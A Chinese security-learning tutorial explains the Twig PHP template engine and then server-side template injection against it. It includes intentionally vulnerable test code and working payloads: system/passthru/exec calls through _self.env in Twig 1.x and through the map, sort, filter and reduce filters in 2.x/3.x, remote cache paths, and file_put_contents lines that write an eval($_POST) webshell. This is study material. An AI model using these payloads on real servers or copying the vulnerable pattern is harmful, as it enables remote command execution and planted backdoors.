


# PHP安全学习—Twig模板引擎SSTI注入

Author: H3rmesk1t

# 简介
> 1. Twig 是一个灵活、快速、安全的 PHP 模板语言，它将模板编译成经过优化的原始 PHP 代码
> 2. Twig 拥有一个 Sandbox 模型来检测不可信的模板代码
> 3. Twig 由一个灵活的词法分析器和语法分析器组成，可以让开发人员定义自己的标签，过滤器并创建自己的 DSL
> 4. Twig 被许多开源项目使用，比如 Symfony、Drupal8、eZPublish、phpBB、Matomo、OroCRM；许多框架也支持 Twig，比如 Slim、Yii、Laravel 和 Codeigniter 等等

# 安装
> 推荐使用 composer 来进行安装

```bash
composer require "twig/twig:^3.0"
```

> 安装之后直接使用 Twig 的 PHP API 进行调用即可，下面看一个测试代码

```php
<?php
require_once __DIR__.'/vendor/autoload.php';

$loader = new \Twig\Loader\ArrayLoader([
    'index' => 'Hello {{ name }}!',
]);
$twig = new \Twig\Environment($loader);

echo $twig->render('index', ['name' => 'whoami']);
```
> 上述代码中 Twig 首先使用一个加载器 Twig_Loader_Array 来定位模板，然后使用一个环境变量 Twig_Environment 来存储配置信息，其中 render() 方法通过其第一个参数载入模板，并通过第二个参数中的变量来渲染模板；由于模板文件通常存储在文件系统中，Twig 还附带了一个文件系统加载程序

```php
<?php
require_once __DIR__.'/vendor/autoload.php';

$loader = new \Twig\Loader\FilesystemLoader('./views');
//$loader = new \Twig\Loader\FilesystemLoader('./templates');
$twig = new \Twig\Environment($loader, [
    'cache' => './cache/views',    // cache for template files
]);

echo $twig->render('index.html', ['name' => 'whoami']);
```

# Twig 模板的基础语法
> 模板实际就是一个常规的文本文件，它可以生成任何基于文本的格式(HTML、XML、CSV、LaTeX等)，它没有特定的扩展名：.html、.xml、.twig 都行
> 模板包含变量或表达，在评估编译模板时这些带值的变量或表达式会被替换，还有一些控制模板逻辑的标签 tags
> 下面是一个非常简单的模板

```html
<!DOCTYPE html>
<html>
    <head>
        <title>My Webpage</title>
    </head>
    <body>
        <ul id="navigation">
        
            <li><a href="{{ item.href }}">{{ item.caption }}</a></li>
        
        </ul>

        <h1>My Webpage</h1>
        {{ a_variable }}
    </body>
</html>
```

> 从上面的代码中可以看出，有两种形式的分隔符： 和 {{ ... }}，前者用于执行语句 (例如 for 循环)，后者用于将表达式的结果输出到模板中

## 变量
> 应用程序将变量传入模板中进行处理，变量可以包含能访问的属性或元素，可以使用 `.` 来访问变量中的属性 (方法或 PHP 对象的属性或 PHP 数组单元)，也可以使用所谓的 "subscript" 语法 `[]`

```php
{{ foo.bar }}
{{ foo['bar'] }}
```

## 设置变量
> 可以为模板代码块内的变量赋值，赋值使用 set 标签

```php



```

## 过滤器
> 可以通过过滤器 `filters` 来修改模板中的变量，在过滤器中变量与过滤器或多个过滤器之间使用 `|` 分隔，还可以在括号中加入可选参数来连接多个过滤器，其中一个过滤器的输出结果将用于下一个过滤器中，[Twig 内置过滤器参考链接](https://twig.symfony.com/doc/3.x/filters/index.html)

```php
# 下面这个过滤器的例子会剥去字符串变量 name 中的 HTML 标签然后将其转化为大写字母开头的格式

{{ name|striptags|title }}
// {{ '<a>whoami<a>'|striptags|title }}
// Output: Whoami!

# 下面这个过滤器将接收一个序列 list 然后使用 join 中指定的分隔符将序列中的项合并成一个字符串

{{ list|join }}
{{ list|join(', ') }}
// {{ ['a', 'b', 'c']|join }}
// Output: abc
// {{ ['a', 'b', 'c']|join('|') }}
// Output: a|b|c
```

## 函数
> 在 Twig 模板中可以直接调用函数用于生产内容，[Twig 内置函数参考链接](https://twig.symfony.com/doc/3.x/functions/index.html)

```php
# 如下调用了 range() 函数用来返回一个包含整数等差数列的列表


    {{ i }},

// Output: 0, 1, 2, 3,
```

## 控制结构
> 控制结构是指控制程序流程的所有控制语句 if、elseif、else、for 以及程序块等等，控制结构出现在  块中，[Twig Tags参考链接](https://twig.symfony.com/doc/3.x/tags/index.html)

```php
# 例如使用 for 标签进行循环

<h1>Members</h1>
<ul>
    
        <li>{{ user.username|e }}</li>
    
</ul>

# if 标签可以用来测试表达式


    <ul>
        
            <li>{{ user.username|e }}</li>
        
    </ul>

```

## 注释
> 要在模板中注释某一行可以使用注释语法 {# ...#}

```php
{# note: disabled template because we no longer use this
    
        ...
    
#}
```

## 引入其他模板
> Twig 提供的 include 函数可以使你更方便地在模板中引入模板并将该模板已渲染后的内容返回到当前模板

```php
{{ include('sidebar.html') }}
```

# Twig 模板注入
> 和其他的模板注入一样 Twig 模板注入也是发生在直接将用户输入作为模板

```php
<?php
require_once __DIR__.'/vendor/autoload.php';

$loader = new \Twig\Loader\ArrayLoader();
$twig = new \Twig\Environment($loader);

$template = $twig->createTemplate("Hello {$_GET['name']}!");

echo $template->render();
```

```php
<?php
require_once __DIR__.'/vendor/autoload.php';

$loader = new \Twig\Loader\ArrayLoader([
    'index' => 'Hello {{ name }}!',
]);
$twig = new \Twig\Environment($loader);

echo $twig->render('index', ['name' => 'whoami']);
```

> 上述第一段代码中 createTemplate 时注入了 `$_GET['name']`，此时就会引发模板注入，而第二段代码则不会，因为模板引擎解析的是字符串常量中的 `{{name}}`，而不是动态拼接的 `$_GET["name"]`

## Twig 1.x
> 测试代码如下

```php
<?php

include __DIR__.'/vendor/twig/twig/lib/Twig/Autoloader.php';
Twig_Autoloader::register();

$loader = new Twig_Loader_String();
$twig = new Twig_Environment($loader);
echo $twig->render($_GET['name']);
?>
```

> 在 Twig 1.x 中存在三个全局变量
```php
_self：引用当前模板的实例
_context：引用当前上下文
_charset：引用当前字符集
```

> 对应的代码是

```php
protected $specialVars = [
        '_self' => '$this',
        '_context' => '$context',
        '_charset' => '$this->env->getCharset()',
    ];
```
> 这里主要就是利用 `_self` 变量，它会返回当前 `\Twig\Template` 实例并提供了指向 `Twig_Environment` 的 `env` 属性，这样就可以继续调用 `Twig_Environment` 中的其他方法从而进行 SSTI
> 例如以下 Payload 可以调用 `setCache` 方法改变 Twig 加载 PHP 文件的路径，在 `allow_url_include` 开启的情况下可以通过改变路径实现远程文件包含

```php
{{_self.env.setCache("ftp://attackTarget:1234")}}{{_self.env.loadTemplate("backdoor")}}
```

> 还有 getFilter 方法中的 `call_user_func` 方法，Payload：`{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("calc.exe")}}` (但是在 Twig2.x 及 Twig3.x 以后 `_self` 的作用发生了变化，只能返回当前实例名字符串，故该 Payload 只对 Twig1.x 适用)

```php
public function getFilter($name)
    {
        if (null === $this->filters) {
            $this->loadFilters();
        }

        if (isset($this->filters[$name])) {
            return $this->filters[$name];
        }

        foreach ($this->filterCallbacks as $callback) {
            if (false !== $filter = call_user_func($callback, $name)) {
                return $filter;
            }
        }

        return false;
    }
```



## Twig 2.x && Twig 3.x
> 测试代码

```php
<?php
require_once __DIR__.'/vendor/autoload.php';

$loader = new \Twig\Loader\ArrayLoader();
$twig = new \Twig\Environment($loader);

$template = $twig->createTemplate("Hello {$_GET['name']}!");

echo $template->render();
```

> 到了 Twig 2.x / 3.x 版本中的 `__self` 变量在 SSTI 中早已失去了它的作用，但可以借助新版本中的一些过滤器实现攻击目的

### map 过滤器
> 在 Twig 3.x 中的 map 过滤器可以允许用户传递一个箭头函数，并将这个箭头函数应用于序列或映射的元素

```php


{{ people|map(p => "#{p.first} #{p.last}")|join(', ') }}
// Output: outputs Bob Smith, Alice Dupond




{{ people|map((last, first) => "#{first} #{last}")|join(', ') }}
// Output: outputs Bob Smith, Alice Dupond
```

> 当如下使用 map 时

```php
{{["Mark"]|map((arg)=>"Hello #{arg}!")}}
```

> Twig 3.x 会将其编译成

```php
twig_array_map([0 => "Mark"], function ($__arg__) use ($context, $macros) { $context["arg"] = $__arg__; return ("hello " . ($context["arg"] ?? null))})
```

> 来看看源码中这个方法是怎么执行的

```php
function twig_array_map($array, $arrow)
{
    $r = [];
    foreach ($array as $k => $v) {
        $r[$k] = $arrow($v, $k);    // 直接将 $arrow 当做函数执行
    }

    return $r;
}
```

> 从上面的代码中可以看到传入的 `$arrow` 直接就被当成函数执行，即 `$arrow($v, $k)`，而 `$v` 和 `$k` 分别是 `$array` 中的 `value` 和 `key`
> 并且 `$array` 和 `$arrow` 都是可控的，因此直接传一个可传入两个参数的、能够命令执行的危险函数名即可实现命令执行

```php
system ( string $command [, int &$return_var ] ) : string
passthru ( string $command [, int &$return_var ] )
exec ( string $command [, array &$output [, int &$return_var ]] ) : string
shell_exec ( string $cmd ) : string
```

> 上述四个方法可以达到命令执行的有前三个，并且 exec 是无回显执行

```php
{{["calc"]|map("system")}}
{{["calc"]|map("passthru")}}
{{["calc"]|map("exec")}}    // 无回显
```

> 如果上面这些命令执行函数都被禁用了还可以执行其他函数执行任意代码

```php
{{["phpinfo();"]|map("assert")|join(",")}}
{{{"<?php phpinfo();eval($_POST[H3rmesk1t]);":"/var/www/html/shell.php"}|map("file_put_contents")}}    // 写 Webshell
```

> 既然 map 的 `$arrow` 可以利用，那继续寻找带有 $arrow 参数的应该也可以发现可以利用的过滤器

### sort 过滤器
> 这个 sort 筛选器可以用来对数组排序，可以传递一个箭头函数来对数组进行排序

```php

    ...






    {{ fruit }}


// Output in this order: Oranges, Grapes, Apples
```

> 类似于 map，模板编译的过程中会进入 twig_sort_filter 函数，这个 twig_sort_filter 函数的源码如下

```php
function twig_sort_filter($array, $arrow = null)
{
    if ($array instanceof \Traversable) {
        $array = iterator_to_array($array);
    } elseif (!\is_array($array)) {
        throw new RuntimeError(sprintf('The sort filter only works with arrays or "Traversable", got "%s".', \gettype($array)));
    }

    if (null !== $arrow) {
        uasort($array, $arrow);    // 直接被 uasort 调用 
    } else {
        asort($array);
    }

    return $array;
}
```

> 从源码中可以看到，`$array` 和 `$arrow` 直接被 `uasort` 函数调用，由于 `uasort` 函数可以使用用户自定义的比较函数对数组中的元素按键值进行排序，如果自定义一个危险函数将造成代码执行或命令执行


> Payload

```php
{{["calc", 0]|sort("system")}}
{{["calc", 0]|sort("passthru")}}
{{["calc", 0]|sort("exec")}}    // 无回显
```

### filter 过滤器
> 这个 filter 过滤器使用箭头函数来过滤序列或映射中的元素，箭头函数用于接收序列或映射的值

```php

{{ lists|filter(v => v > 38)|join(', ') }}

// Output: 40, 42
```

> 类似于 map，模板编译的过程中会进入 `twig_array_filter` 函数，这个 `twig_array_filter` 函数的源码如下

```php
function twig_array_filter($array, $arrow)
{
    if (\is_array($array)) {
        return array_filter($array, $arrow, \ARRAY_FILTER_USE_BOTH);    // $array 和 $arrow 直接被 array_filter 函数调用
    }

    // the IteratorIterator wrapping is needed as some internal PHP classes are \Traversable but do not implement \Iterator
    return new \CallbackFilterIterator(new \IteratorIterator($array), $arrow);
}
```

> 从源码中可以看到 `$array` 和 `$arrow` 直接被 `array_filter` 函数调用，`array_filter` 函数可以用回调函数过滤数组中的元素，如果自定义一个危险函数将造成代码执行或命令执行



> Payload

```php
{{["calc"]|filter("system")}}
{{["calc"]|filter("passthru")}}
{{["calc"]|filter("exec")}}    // 无回显
{{{"<?php phpinfo();eval($_POST[H3rmesk1t]);":"/var/www/html/shell.php"}|filter("file_put_contents")}}    // 写 Webshell
```

### reduce 过滤器
> 这个 reduce 过滤器使用箭头函数迭代地将序列或映射中的多个元素缩减为单个值，箭头函数接收上一次迭代的返回值和序列或映射的当前值

```php

{{ numbers|reduce((carry, v) => carry + v) }}
// Output: 6
```

> 类似于 map，模板编译的过程中会进入 `twig_array_reduce` 函数，这个 `twig_array_reduce` 函数的源码如下

```php
function twig_array_reduce($array, $arrow, $initial = null)
{
    if (!\is_array($array)) {
        $array = iterator_to_array($array);
    }

    return array_reduce($array, $arrow, $initial);    // $array, $arrow 和 $initial 直接被 array_reduce 函数调用
}
```

> 从源码中可以看到 `$array` 和 `$arrow` 直接被 `array_filter` 函数调用，`array_reduce` 函数可以发送数组中的值到用户自定义函数并返回一个字符串，如果自定义一个危险函数将造成代码执行或命令执行

> Payload

```php
{{[0, 0]|reduce("system", "calc")}}
{{[0, 0]|reduce("passthru", "calc")}}
{{[0, 0]|reduce("exec", "calc")}}    // 无回显
```